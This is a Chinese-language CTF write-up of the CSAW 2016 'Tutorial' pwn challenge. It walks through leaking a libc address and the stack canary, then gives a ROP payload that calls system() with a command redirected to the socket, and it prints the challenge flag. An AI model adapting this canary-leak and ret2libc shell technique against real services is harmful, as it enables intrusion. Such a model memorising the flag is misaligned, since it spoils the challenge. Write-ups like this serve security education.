

# CSAW CTF 2016 Quals: Tutorial

分類：Pwn 分數：200

說明：Ok sport, now that you have had your Warmup, maybe you want to checkout the Tutorial.

- [tutorial](https://github.com/isislab/CSAW-CTF-2016-Quals/raw/master/Pwn/Tutorial/tutorial)
- [libc-2.19.so](https://github.com/isislab/CSAW-CTF-2016-Quals/raw/master/Pwn/Tutorial/libc-2.19.so)

## Binary

下載 binary 後例行動作：

```
$ checksec tutorial
[*] '/workspace/csawctf/tutorial'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```

這個 binary 用了 *stack canary* 和 *NX bit*，要進行 stack buffer overflow 要先找到 canary value，而且也不能直接執行 stack 上的 shellcode。

先嘗試執行 binary，即時得到個 segfault：

```
(gdb) run
Starting program: /workspace/csawctf/tutorial

Program received signal SIGSEGV, Segmentation fault.
__GI_____strtol_l_internal (nptr=0x0, endptr=endptr@entry=0x0,
    base=base@entry=10, group=group@entry=0,
    loc=0x7ffff7bd0060 <_nl_global_locale>) at ../stdlib/strtol_l.c:298
298	../stdlib/strtol_l.c: No such file or directory.
```

用 Hopper Disassembler disassemble 這個 binary，發現這個程式用 argv[1] 作為 listening socket 的 port。

```
(gdb) run 9999
Starting program: /workspace/csawctf/tutorial 9999
User tutorial does not exist
accept: Bad file descriptor
```

執行 `./tutorial 9999` 沒有 segfault，不過嘗試 `nc localhost 9999` 時會得到另一個 error，原來這個程式還要以 *tutorial* 用戶運行。在系統加入一個用戶應該也可以的，不過我選擇用 Hopper 直接把這個檢查改為 NOP，順手看見附近有一個 timeout alarm 也 NOP 掉以免阻礙 debug。這樣總算可以成功執行這個 binary：

```
$ nc localhost 9999
-Tutorial-
1.Manual
2.Practice
3.Quit
>1
Reference:0x7ffff7880860
-Tutorial-
1.Manual
2.Practice
3.Quit
>2
Time to test your exploit...
>AAAAA
AAAAA
@????x"???*e????-Tutorial-
1.Manual
2.Practice
3.Quit
>
```

選擇 Manual 會得到一個 memory address，disassemble `func1` 看到這個 address 其實是 `dlsym(0xffffffffffffffff, "puts")-0x500`，這是一個 libc function 的 address，有了這個就可以用 return-to-libc 方法去繞過 *NX bit* 的限制。

再看看 Practice 選項（`func2`）。



`func2` 有三個 stack variables：8 bytes stack canary，312 bytes buffer 和 4 byte 的 socket file descriptor。這個 function 從 socket 讀取 460 bytes 寫進 buffer，然後再由 buffer 讀 324 bytes 寫到 socket。由於 buffer 只有 312 bytes，利用這個 function 就可以覆寫 stack frame 的 return address 取得 control flow，因為它還會把 buffer 之後的 12 bytes 寫出來，我們還可以得到 stack canary 的值和上一個 stack frame 的 `$rbp` 的最低 32 bits。

## 解題

到這裡要怎樣解題就很清楚，先要用 Manual 選項取得 libc address，從 Practice 選項讀取 stack canary 和 stack base address，再一次用 Practice 選項覆寫 stack frame 的 return address 取得 control flow，再引導去 libc 的 `system()` 取 shell。不過還有一個麻煩的地方，就是這個 binary 用 socket 進行 IO，我們要把 shell 的 stdin/stdout redirect 到 socket 的 file descriptor 才可以看到 output。

```
$ strace -f ./tutorial 9999
...
[pid  5304] write(4, "-Tutorial-\n", 11) = 11
...
```

從 `strace` 看到 socket 的 file descriptor 總是 `4`。最先想到的辦法就是把 `sh >&4 <&4` 寫到 buffer 上作為 `system()` 的 argument。因為 Manual 選項 leak 了 `$rbp` 的最低 32 bits，可以憑這個估算 buffer 的 address，只要在 libc 裡找個 `pop rdi` 的 ROP gadget 把 buffer address 寫進 `$rdi`（System V calling convention 的第一個 function parameter），再把 `$rip` 指到 `system()` 就可以了。可是執行起上來時發現不知道為什麼只有 buffer 的前 7 個 character 可用，連 `cat *>&4` 也不夠。隊友提議用 `hd *>&4`，但 host 好像沒有這個 command，之後在[two letter linux command](http://www.hioreanu.net/cs/two-letter-commands.html) 裡發現 `od` 可用。結果得到 flag 的八進制內容：

```
0000000 046106 043501 031573 051501 057531 030122 057520 030122
0000020 057520 030120 057520 030120 057520 052531 057515 052531
0000040 057515 044103 046525 041537 052510 076515 000012
...
```

這是 payload：

```python
payload = "od *>&4\0"
payload += 'A' * (312-len(payload))
payload += canary
payload += 'D' * 8
payload += p64(proc_open_addr + 0x1e7) # pop rdi; ret
payload += p32(buf_addr)
payload += p32(stack_base)
payload += p64(proc_open_addr + system_offset)
```

完整解答：[tutorial.py](tutorial.py)

這個方法其實不夠簡潔，更直接的做法是先用 `dup2()` 把 `fd 4` 複製到 stdin/stdout，再行 `system("/bin/sh")`，這樣就可以取得完整的 shell，不過既然取到 flag 那就算了。

## Flag

```
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```

## 其他解答

- https://github.com/ctfs/write-ups-2016/blob/master/csaw-ctf-2016-quals/Pwn/Tutorial-200/README.md
